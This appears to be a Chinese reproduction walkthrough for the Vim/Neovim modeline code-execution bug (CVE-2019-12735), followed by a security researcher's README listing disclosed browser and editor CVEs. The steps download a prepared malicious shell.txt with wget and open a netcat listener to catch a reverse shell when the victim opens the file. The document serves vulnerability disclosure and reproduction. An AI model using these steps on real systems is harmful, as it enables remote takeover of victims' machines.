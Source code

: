 复现方法
1.配置默认开启modeline
vi ~/.vimrc
set modeline
2.检查默认是否开启modeline
vi shell.txt
:set modeline?

3.下载shell.txt
wget https://raw.githubusercontent.com/ThirdWang/security/master/data/2019-06-04_ace-vim-neovim/shell.txt
#实际上，shell.txt不能直接拷贝上述网页上的文本来生成，如果拷贝网页上的内容，十六进制比如\x1b是需要通过二进制编辑器直接改成二进制的，并且需要处理命令中的反斜杠的字符“\”。

4. nc -vlp 9999
#本机开启监听

5. vim shell.txt
Demo (victim left, attacker right):

![Reverse shell demo](https://i.imgur.com/8w4tteX.gif)



# security

This repository will contain security-related stuff I'm doing. (Also, [@rawsec](https://twitter.com/rawsec) on Twitter)

Recent:

- 2019-06-04 [Vim/Neovim Arbitrary Code Execution via Modelines](doc/2019-06-04_ace-vim-neovim.md) (CVE-2019-12735)

More to come...

---



CTF write-ups:



- [Google CTF 2017 | Geokitties v2](https://github.com/numirias/ctf/blob/master/writeup-google-ctf-2017-geokitties-v2.md)



- [*Many more...*](https://security.meta.stackexchange.com/search?tab=votes&q=user%3a95381%20is%3aanswer%20%5bwrite-up%5d)


[My answers](https://security.stackexchange.com/users/95381/arminius?tab=answers)  on Security.SE (many trivial, but also a few interestinig ones).

Some older bugs:

- 2017-01-25 [Google Chrome: Address spoofing in Omnibox](https://bugs.chromium.org/p/chromium/issues/detail?id=673971
) (CVE-2017-5015)

- 2017-01-24 [Mozilla Firefox: Location bar spoofing with unicode characters](https://www.mozilla.org/en-US/security/advisories/mfsa2017-01/#CVE-2017-5383) (CVE-2017-5383)

- 2016-06-07 [Mozilla Firefox: Partial SOP violation via forged location.host](https://www.mozilla.org/en-US/security/advisories/mfsa2016-54/) (CVE-2016-2825)

- 2015-05-19 [Google Chrome: Cross-origin bypass in Editing](https://bugs.chromium.org/p/chromium/issues/detail?id=444927) (CVE-2015-1254)

- 2015-04-03 [Mozilla Firefox: Privileged URLs processed by about:reader](https://www.mozilla.org/en-US/security/advisories/mfsa2015-43/) (CVE-2015-0798)

- 2015-03-31 [Mozilla Firefox: Addon permissions exposed to man-in-the-middle attacks](https://www.mozilla.org/en-US/security/advisories/mfsa2015-32/) (CVE-2015-0812)

- 2015-02-24 [Mozilla Firefox: Local files or privileged URLs in pages can be opened into new tabs](https://www.mozilla.org/en-US/security/advisories/mfsa2015-25/) (CVE-2015-0821)

- 2015-02-24 [Mozilla Firefox: Arbitrary File Read Vulnerability via Form Autocomplete](https://www.mozilla.org/en-US/security/advisories/mfsa2015-24/) (CVE-2015-0822)
